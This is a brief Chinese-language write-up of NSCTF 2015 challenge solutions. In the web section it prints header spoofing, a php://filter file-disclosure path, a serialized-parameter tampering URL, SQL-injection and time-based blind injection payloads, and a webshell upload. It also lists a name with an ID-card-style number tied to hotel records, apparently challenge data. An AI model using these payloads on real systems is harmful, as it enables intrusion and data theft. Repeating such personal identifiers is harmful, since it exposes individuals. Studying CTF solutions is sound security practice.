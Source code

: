 ```yaml
---
title: nsctf2015-writeup
pubDatetime: 2015-10-13 00:45:04
tags:
  - ctf
description: Already Archive Before 20230604
---
```


### re1

    ASCII找到flag:{NSCTF_md5065ca>01??ab7e0f4>>a701c>cd17340}
    异或0x7
    712df97688fe0b7a399f076d9dc60437

### re2

    找字符串
    flag:{NSCTF_md57e0cad17016b0>?45?f7c>0>4a>1c3a0}
    异或0x7
    NSCTF_md50b7dfc60761e798328a0d9793f96d4f7

###re500
pyc 逆字节码运行 getflag5()即可
flag:{NSCTF_md576d958d8a8640dfe2ada4811aef59b26}

### web1

    index.php
    flag:{NSCTF_1E72F25BA71580D7D7DDBD25ACF4A8F3}

### web2

    Referer: http://www.nsctf.net/
    X-Forwarded-For: 101.200.73.168

    Wm14aFp6cDdUbE5EVkVaZk5EZzRZamRoTW1SalkyUXdNbUUzTXpReE5qVmpNemxpWVRRMU1UZGtZ
    ZmxhZzp7TlNDVEZfNDg4YjdhMmRjY2QwMmE3MzQxNjVjMzliYTQ1MTdkYmN9
    flag:{NSCTF_488b7a2dccd02a734165c39ba4517dbc}

### web3

    key和ver都是5.5.9-1ubuntu4.12
    NjY2YzYxNjczYTdiNGU1MzQzNTQ0NjVmMzY2MzM3Mzk2NTM5NjIzMzM2NjMzMDM4NjIzMDMwMzAzMzM1MzIzODM3NjEzODM4NjMzNjYzNjE2MjM5MzA2Njdk
    666c61673a7b4e534354465f36633739653962333663303862303030333532383761383863366361623930667d
    flag:{NSCTF_6c79e9b36c08b00035287a88c6cab90f}

### web4

    找到password.txt
    username=admin&password=Nsf0cuS
    290bca70c7dae93db6644fa00b9d83b9.php
    本来看到以为是xss,结果直接改userlevel=root就好

    flag={NSCTF_76b44eac527ad5c8789f5d2e0f1ede9a}

### web5

    rot13,逆序,base64,移位,逆序
    flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}

### web6

    改if里面的==为=号直接输出用户名密码
    G0od!JAVA3C41PTISAGO 1pt_Pa4sW0rd_K3y_H3re
    登陆后给出base64 解密 key_Ch3ck_.txt
    继续 Ch3ck_Au7h.php
    检查作者
    uname,upass提交
    flag:{NSCTF_d7590edfdf8bcf958ced10cec94273a}

### web7

    Xiaoming09231995
    开房记录 王伟   身份证号34112519831224875X

    flag:{NSCTF_3ad65730a8f203a5ab861169e9547f6d}

### web08

    php://filter/read=convert.base64-encode/resource=index.php
    flag:{NSCTF_9bac7a6e289bf89ee0061bd0abdef0ab}

### web09

    base64(md5(20150923)),id=3

    /.index.php.swp
    审计
    	http://www.nsctf.net:8000/fa81bb665474f11c025b5355582af315/web/09/changepassword.php?userInfo=a:2:{s:2:"id";s:1:"1";s:4:"pass";s:8:"20150923";}&oldPass=20150923&newPass=6666
    flag:{NSCTF_98c5bf58e35877fc76ce03f0f01327c5}

### web10

    源码:http://www.nsctf.net:8000/fa81bb665474f11c025b5355582af315/web/10/index.php.
    先_CONFIG=1取消掉config,注释sql
    	password=/*!OR*/%1=1%23&username=\&Submit=%E6%8F%90%E4%BA%A4&_CONFIG=1
    	flag:{NSCTF_adf0ff1eb152b1e3398ba4523fc713f}

### web11

    可上传php5
    暴力上传生成小马,index.php里面发现flag
    flag{NSCTF_8f0fc74ddf786103ed56d20af3bf269}

### web12

    时间盲注 payload
    字段flag
    	sexlect(ord(substr((SELExCT(group_concat(column_name))FROM(information_schema.columns)WHERE(table_name)%2513%2527flag%2527),1,1)))>1
    内容
    	username=admin%2527and(selexct(selxect(slexep(5))and(selecxt(ord(substr((selexct(flag)from(flag)),12,1))>13))))%23&filtername=x&Submit=%E6%8F%90%E4%BA$A4
    flag:{NSCTF_98c5bf58e35877fc76ce03f0f01327c5}

### Misc1

    md5 nsfocous666

### Misc2

    提取出来key.rar 密码是nsfocous+5数字 爆破之
    nsfocous56317

    flag{NCTF_R4r_Cr4ck}

### Misc3

    主要是三个段 消费 初始 余额  确保两个等式正确 算一下就行 每1.8是B4
    flag{NSCTF_RfID_Cr4ck}

### Crypto

    直接AES解密 flag{DISJV_Hej_UdShofjyed}
    凯撒
    NSCTF_Rot_EnCryption

### Crypto2

    分离图片,第二个就是flag
    flag{NSCTF_e6532a34928a3d1dadd0b049d5a3cc57}

### Crypto3

    stegslove: blue0 反选 flag{NSCTF_Qr_C0De}

